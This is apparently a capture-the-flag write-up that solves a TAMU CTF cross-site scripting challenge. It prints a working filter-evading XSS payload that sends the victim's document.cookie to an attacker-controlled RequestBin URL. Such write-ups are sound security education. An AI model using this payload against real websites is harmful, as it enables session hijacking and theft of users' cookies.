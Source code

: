 ## input
xss3.ctf.tamu.edu  
The filtering is perfect this time, really! You know the drill; the client's cookie contains your flag.  

## output
As the previous challenge __Secret Cross-site Cookies__, we create a RequestBin to listen on the web and we put the XSS payload on the URL to check that the XSS is working for us:  
xss3.ctf.tamu.edu/web/search_query.php?query=><scRiPt>document.write('<IMG SRC=\"http://requestb.in/1464vht1?cookie='%2bdocument.cookie);</sCripT>

It's working for us so it has to work for the bot:
![URL](https://github.com/mhackgyver-squad/mhackgyver/blob/master/writeup/images/SUPER_Secret_Cross-Site_Cookies_URL_creation.png)

And effectively:
![flag](https://github.com/mhackgyver-squad/mhackgyver/blob/master/writeup/images/SUPER_Secret_Cross-Site_Cookies_URL_flag.png)

